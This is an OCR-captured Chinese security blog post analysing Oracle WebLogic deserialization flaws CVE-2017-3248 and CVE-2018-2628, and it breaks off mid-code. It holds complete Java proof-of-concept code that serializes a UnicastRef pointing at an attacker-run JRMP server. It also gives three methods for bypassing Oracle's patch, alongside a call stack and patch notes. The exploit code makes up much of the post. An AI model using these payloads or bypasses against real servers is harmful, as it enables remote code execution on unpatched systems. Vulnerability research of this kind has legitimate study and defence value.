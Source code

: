 最近在看一些其他东西，加上工作内容有些变动，原本的Weblogic分析拖了很久才发出来。时间隔得有点久了，若是文章中有借鉴了其他师傅的内容忘了标注，请指出。之前做复现时顺手挖了3个洞，oracle只收了一个，并且不回复原因...不知道啥情况，待补丁发布之后再另出文章分析吧。正文CVE-2017-3248影响范围WebLogic 10.3.6.0WebLogic 12.1.3.0WebLogic 12.2.1.0WebLogic 12.2.1.1漏洞分析该漏洞本质上是利用RMI的缺陷，通过建立恶意jrmp请求，反序列化来自jrmp server的数据造成反序列化攻击。参考网上资料的流程图：POC：import sun.rmi.server.UnicastRef;import sun.rmi.transport.LiveRef;import sun.rmi.transport.tcp.TCPEndpoint;import java.io.ByteArrayOutputStream;import java.io.IOException;import java.io.ObjectOutputStream;import java.lang.reflect.Proxy;import java.rmi.registry.Registry;import java.rmi.server.ObjID;import java.rmi.server.RemoteObjectInvocationHandler;import java.util.Base64;import java.util.Random;public class CVE_2017_3248 {    public static Object getObject() {        ObjID id = new ObjID(new Random().nextInt());        TCPEndpoint tcpEndpoint = new TCPEndpoint("10.51.53.37", 6666);        UnicastRef unicastRef = new UnicastRef(new LiveRef(id, tcpEndpoint, false));        //经过测试，单独通过UnicastRef也可以触发反序列化，下面两个封装类可有可无        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(unicastRef);        Registry registry = (Registry) Proxy.newProxyInstance(CVE_2017_3248.class.getClassLoader(), new Class[]{Registry.class}, handler);        return registry;    }    public static void main(String[] args) throws IOException {        ByteArrayOutputStream fout = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fout);        objectOutputStream.writeObject(getObject());        objectOutputStream.close();        System.out.println(Base64.getEncoder().encodeToString(fout.toByteArray()));    }}在Weblogic的反序列化过程中，通过ObjectStreamClass.readObject() -> RemoteObject.readObject()调用到UnicastRef的readExternal方法：查看传入的LiveRef对象可以看到我们在payload中放置的TCPEndpoint以及恶意jrmp server地址，DGClient将会使用registerRefs方法注册这个对象：并最终触发DitryCall将从jrmp server获取的数据进行反序列化：调用栈如下：executeCall:245, StreamRemoteCall (sun.rmi.transport)invoke:379, UnicastRef (sun.rmi.server)dirty:-1, DGCImpl_Stub (sun.rmi.transport)makeDirtyCall:378, DGCClient$EndpointEntry (sun.rmi.transport)registerRefs:320, DGCClient$EndpointEntry (sun.rmi.transport)registerRefs:156, DGCClient (sun.rmi.transport)read:312, LiveRef (sun.rmi.transport)readExternal:493, UnicastRef (sun.rmi.server)readObject:455, RemoteObject (java.rmi.server)invoke0:-1, NativeMethodAccessorImpl (sun.reflect)invoke:62, NativeMethodAccessorImpl (sun.reflect)invoke:43, DelegatingMethodAccessorImpl (sun.reflect)invoke:498, Method (java.lang.reflect)invokeReadObject:1058, ObjectStreamClass (java.io)readSerialData:2122, ObjectInputStream (java.io)readOrdinaryObject:2013, ObjectInputStream (java.io)readObject0:1535, ObjectInputStream (java.io)defaultReadFields:2231, ObjectInputStream (java.io)readSerialData:2155, ObjectInputStream (java.io)readOrdinaryObject:2013, ObjectInputStream (java.io)readObject0:1535, ObjectInputStream (java.io)readObject:422, ObjectInputStream (java.io)readObject:66, InboundMsgAbbrev (weblogic.rjvm)read:38, InboundMsgAbbrev (weblogic.rjvm)readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)init:213, MsgAbbrevInputStream (weblogic.rjvm)dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)dispatch:387, BaseAbstractMuxableSocket (weblogic.socket)readReadySocketOnce:967, SocketMuxer (weblogic.socket)readReadySocket:899, SocketMuxer (weblogic.socket)processSockets:130, PosixSocketMuxer (weblogic.socket)run:29, SocketReaderRequest (weblogic.socket)execute:42, SocketReaderRequest (weblogic.socket)execute:145, ExecuteThread (weblogic.kernel)run:117, ExecuteThread (weblogic.kernel)修复补丁在weblogic.rjvm.InboundMsgAbbrev中新增了一个resolveProxyClass方法用于检测传入RMI接口类是否为java.rmi.registry.Registry，若是则会抛出异常：流量特征如下：CVE-2018-2628该CVE本应是上文中补丁的绕过，但显然上文中补丁并不是很有效(更正：从上个补丁开始就不能打CC了)POC1:通过上文poc代码中的提到的，其实整个反序列化过程中不需要通过java.lang.reflect.Proxy与java.rmi.server.RemoteObjectInvocationHandler代理封装，直接使用UnicastRef类进行反序列化，在反序列化过程中不会调用到resovleProxyClass。POC2:通过修改接口类，比如网上公开的poc用java.rmi.activation.Activator替换java.rmi.registry.Registry，但其实这里对类接口没什么要求，换成Map都行：POC3:通过StreamMessageImpl绕过resolveProxyClass检查，StreamMessageImpl的反序列化流程在CVE-2016-0638中已分析过，就不再赘述。POC代码：import sun.rmi.server.UnicastRef;import sun.rmi.transport.LiveRef;import sun.rmi.transport.tcp.TCPEndpoint;import weblogic.jms.common.StreamMessageImpl;import javax.management.remote.rmi.RMIAuthenticator;import java.io.*;import java.lang.reflect.Proxy;import java.rmi.activation.Activator;import java.rmi.registry.Registry;import java.rmi.server.ObjID;import java.rmi.server.RemoteObjectInvocationHandler;import java.util.Base64;import java.util.Hashtable;import java.util.Map;import java.util.Random;public class CVE_2018_2628 {    public static Object getPoc1() {        ObjID id = new ObjID(new Random().nextInt());        TCPEndpoint tcpEndpoint = new TCPEndpoint("127.0.0.1", 6666);        UnicastRef unicastRef = new UnicastRef(new LiveRef(id, tcpEndpoint, false));return unicastRef;    }    public static Object getPoc2() {        ObjID id = new ObjID(new Random().nextInt());        TCPEndpoint tcpEndpoint = new TCPEndpoint("127.0.0.1", 6666);        UnicastRef unicastRef = new UnicastRef(new LiveRef(id, tcpEndpoint, false));        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(unicastRef);//Any InterfaceMap map = (Map) Proxy.newProxyInstance(CVE_2018_2628.class.getClassLoader(), new Class[]{Map.class}, handler);return map;    }    public static Object getPoc3() {        ObjID id = new ObjID(new Random().nextInt());        TCPEndpoint tcpEndpoint = new TCPEndpoint("127.0.0.1", 6666);        UnicastRef unicastRef = new UnicastRef(new LiveRef(id, tcpEndpoint, false));        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(unicastRef);Map map = (Map) Proxy.newProxyInstance(CVE_2018_2628.class.getClassLoader(), new Class[]{Map.class}, handler);return new